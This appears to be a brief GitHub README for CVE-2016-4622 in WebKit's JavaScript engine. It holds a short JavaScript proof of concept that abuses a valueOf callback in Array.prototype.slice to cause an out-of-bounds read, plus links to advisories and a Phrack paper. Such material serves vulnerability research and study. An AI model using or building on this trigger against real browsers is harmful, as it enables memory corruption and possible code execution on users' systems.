 # CVE 2016 4622
## POC

```javascript
var a = [];
for (var i = 0; i < 100; i++)
    a.push(i + 0.123);

var b = a.slice(0, {valueOf: function() { a.length = 0; return 10; }});
```

## About the bug
https://www.zerodayinitiative.com/advisories/ZDI-16-485/
https://support.apple.com/en-us/HT206900
## Reference
http://www.phrack.org/papers/attacking_javascript_engines.html
## WebKit branch
320b1fc